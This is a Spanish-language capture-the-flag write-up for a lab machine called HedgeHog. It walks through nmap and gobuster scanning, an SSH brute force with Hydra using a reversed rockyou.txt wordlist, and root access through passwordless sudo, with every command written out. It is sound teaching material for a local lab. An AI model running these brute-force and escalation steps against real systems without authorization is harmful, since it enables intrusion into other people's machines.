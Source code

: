 
# HedgeHog

![login](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/inicioHedHog.png)

### 1. Verificación de Conectividad
Comenzamos con un **ping** para comprobar si la máquina objetivo está activa.

```bash
ping 172.17.0.2
```

Observamos que responde correctamente, lo que indica que está en línea.

### 2. Escaneo de Puertos con Nmap
Ejecutamos un escaneo completo de puertos para identificar los servicios en ejecución:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

#### **Resultados:**
- **Puerto 22 (SSH)** → Servicio de acceso remoto seguro.
- **Puerto 80 (HTTP)** → Servicio web.

Para obtener más detalles, ejecutamos un escaneo de versiones y servicios:

```bash
sudo nmap -sC -sV -p 22,80 172.17.0.2
```

---

## Enumeración Web

Abrimos el navegador y accedemos a `http://172.17.0.2` para analizar el contenido visible.

También usamos **Gobuster** para buscar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt
```

No encontramos resultados relevantes, por lo que pasamos a otra estrategia.

---

## Ataque de Fuerza Bruta (SSH)

Intentamos un ataque con **Hydra**, pero detectamos que es demasiado lento. Decidimos optimizar el diccionario **rockyou.txt** invirtiéndolo, ya que el nombre *tails* sugiere trabajar con "colas".

### **Invirtiendo el Diccionario**

```bash
tac rockyou.txt >> invertido.txt
```

- `tac rockyou.txt` → Invierte el contenido del archivo, mostrando la última línea primero.
- `>> invertido.txt` → Guarda el resultado en un nuevo archivo.

### **Eliminando Espacios en Blanco**
Algunas líneas pueden tener espacios al inicio, lo que afectaría el ataque. Eliminamos estos espacios con:

```bash
sed -i 's/ //g' invertido.txt
```

### **Ejecutando Hydra**

Ahora ejecutamos **Hydra** con el diccionario optimizado:

```bash
hydra -l tails -P invertido.txt ssh://172.17.0.2
```

Se obtiene un usuario y contraseña válidos para SSH.

---

## Acceso a la Máquina Objetivo

Al intentar conectarnos por SSH, obtenemos un error relacionado con la clave del host. Lo solucionamos con:

```bash
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
```

Ahora podemos conectarnos:

```bash
ssh tails@172.17.0.2
```

Ingresamos la contraseña obtenida y accedemos correctamente.

---

## Escalada de Privilegios

### **1. Verificando Permisos de `sudo`**

```bash
tails@40336695dba7:~$ sudo -l
```

#### **Resultado:**
El usuario `tails` puede ejecutar comandos como `sonic` sin contraseña (`NOPASSWD: ALL`).

### **2. Cambiando de Usuario `tails` a `sonic`**

```bash
tails@40336695dba7:~$ sudo -u sonic /bin/bash
```

### **3. Verificando Usuario Actual**

```bash
sonic@40336695dba7:/home/tails$ whoami
sonic
```

### **4. Verificando Permisos de `sudo` para `sonic`**

```bash
sonic@40336695dba7:/home/tails$ sudo -l
```

#### **Resultado:**
El usuario `sonic` puede ejecutar cualquier comando como cualquier usuario (`ALL`), sin necesidad de contraseña.

### **5. Escalar a `root`**

```bash
sonic@40336695dba7:/home/tails$ sudo -u root /bin/bash
```

### **6. Verificación Final**

```bash
root@40336695dba7:/home/tails# whoami
root
```

Ahora tenemos acceso total al sistema como `root`.

---

## **Resumen del Ataque**

1. **Reconocimiento:** Identificamos puertos abiertos y analizamos servicios.
2. **Enumeración:** No encontramos archivos ocultos en la web.
3. **Fuerza Bruta (SSH):** Optimizamos el diccionario `rockyou.txt` y logramos acceso con `Hydra`.
4. **Acceso Inicial:** Nos conectamos vía SSH como `tails`.
5. **Escalada de Privilegios:**
   - `tails` → `sonic` (mediante `sudo` sin contraseña).
   - `sonic` → `root` (permiso total en `sudo`).

Con esto, logramos el control total del sistema.<br>

⚠ **Este material es solo para aprendizaje y CTFs legales. No lo uses en sistemas sin autorización.**
---

**En mi pagina web (Blog) subo las maquinas más a detalle, normalmento lo hago primero alla por quien guste puede checarlo de aquel lado tambien.** 

https://elyoxsecurity.com/category/maquinas/


Hasta la próxima, hackers.

